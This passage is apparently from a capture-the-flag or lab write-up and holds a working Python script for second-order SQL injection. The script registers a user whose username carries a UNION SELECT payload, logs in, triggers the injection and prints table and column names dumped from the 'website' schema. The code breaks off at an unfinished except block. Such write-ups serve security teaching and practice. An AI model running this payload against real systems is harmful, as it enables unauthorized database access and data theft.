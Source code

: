 It worked, we can see some stuff, let's try reading the tables on `website` to check if any usernames can be found here:

```python
import requests
import sys
import random
import string
import re
from colorama import init, Fore, Style

# Initialize colorama
init(autoreset=True)

def sqli(url, injection):
    s = requests.Session()
    N = 7
    email = ''.join(random.choices(string.ascii_uppercase + string.digits, k=N))
    
    register_data = {
        "username": injection,
        "password": "password",
        "email": str(email) + "@test.com"
    }

    register_url = url + "/register"
    print(Fore.YELLOW + f"[+] Sending registration with injection payload...")
    register = s.post(register_url, data=register_data)

    login_data = {
        "username": injection,
        "password": "password"
    }

    login_url = url + "/login"
    print(Fore.YELLOW + f"[+] Logging in with injected user...")
    home = s.post(login_url, data=login_data)

    box_data = {
        "text_box": "fasdfasd"
    }

    print(Fore.YELLOW + f"[+] Triggering SQLi through text box post-login...")
    box = s.post(login_url, data=box_data)

    search = re.compile(r"<p id=results>(.*?)</p>", re.DOTALL)
    match = search.search(box.text)
    
    if match:
        output = match.group(1).strip()
        print(Fore.GREEN + "[+] SQLi successful! Dumped data:\n")
        print(Fore.CYAN + output)
    else:
        print(Fore.RED + "[-] SQLi failed or no results found.")

if __name__ == "__main__":
    try:
        url = sys.argv[1]
        injectiondb = "' union select 1,(select group_concat(TABLE_NAME,\":\",COLUMN_NAME,\"\r\n\") from Information_Schema.COLUMNS where TABLE_SCHEMA = 'website'),3,4-- -"
        print(Fore.BLUE + f"[*] Target: {url}")
        print(Fore.BLUE + f"[*] Using injection: {injectiondb}")
        sqli(url, injectiondb)
    except IndexError:
```
